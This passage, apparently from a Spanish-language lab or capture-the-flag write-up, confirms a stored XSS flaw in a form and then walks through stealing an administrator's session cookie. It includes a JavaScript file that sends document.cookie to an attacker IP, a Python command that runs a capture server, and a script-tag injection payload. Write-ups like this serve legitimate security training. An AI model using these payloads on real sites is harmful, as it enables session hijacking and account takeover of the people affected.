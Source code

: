 **✅ Confirmación:** El formulario es vulnerable a **XSS Stored**.

### 3.3 Robo de Cookies del Administrador

Preparamos un payload avanzado para capturar cookies de sesión. Creamos un archivo JavaScript malicioso:
**Archivo `script.js`:**
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.188/?cookie=' + document.cookie);
request.send();
```

**Servidor de captura:**
```bash
python3 -m http.server 80
```

**Payload XSS:**
```html
<script src="http://192.168.0.188/script.js"></script>
```

![Inyección del payload](Pasted%20image%2020251009225833.png)
